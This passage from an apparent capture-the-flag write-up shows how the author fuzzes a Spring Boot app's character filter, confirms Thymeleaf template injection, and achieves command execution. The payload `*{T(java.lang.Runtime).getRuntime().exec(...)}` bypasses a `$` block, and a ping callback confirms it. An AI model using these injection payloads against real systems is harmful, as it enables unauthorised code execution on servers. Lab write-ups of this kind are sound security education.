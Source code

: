 ```
===================================================================

000000004:   200        28 L     69 W     755 Ch      "$"
000000063:   200        28 L     69 W     755 Ch      "_"
000000094:   200        28 L     69 W     755 Ch      "~"

Total time: 1.417720
Processed Requests: 95
Filtered Requests: 92
Requests/sec.: 67.00898

```

It looks like three single characters that are blocked (there could be more multi-character patterns as well, but this is a good start).

#### Identify SSTI

The default templating language for Spring Boot is Thymeleaf. [This article](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/) goes into some detail on hacking Thymeleaf, and I really like this part that shows the different kinds of expressions:

![image-20221121160306857](https://0xdfimages.gitlab.io/img/image-20221121160306857.png)

The first and last will trigger the banned list, but I can try the others. For example `*{7*7}` works:

![image-20221121160417155](https://0xdfimages.gitlab.io/img/image-20221121160417155.png)

`@{7*7}` return the same. `#{7*7}` also works, returning a bit more junk:

![image-20221121160444324](https://0xdfimages.gitlab.io/img/image-20221121160444324.png)

#### RCE POC

The payload from the article above is `${T(java.lang.Runtime).getRuntime().exec('calc')}`. I’ll change the leading `$` to `*` and instead of running `calc`, try `id`:

![image-20221121160624067](https://0xdfimages.gitlab.io/img/image-20221121160624067.png)

It looks like the command executed, but I don’t get a response. I can try to `ping` my host with `*{T(java.lang.Runtime).getRuntime().exec('ping -c 1 10.10.14.6')}`, and it works:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
21:07:24.116693 IP 10.10.11.170 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
21:07:24.116743 IP 10.10.14.6 > 10.10.11.170: ICMP echo reply, id 2, seq 1, length 64

```

Alternatively, there are payloads that return the result, such as the one on the [HackTricks SSTI page](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-framework-java):
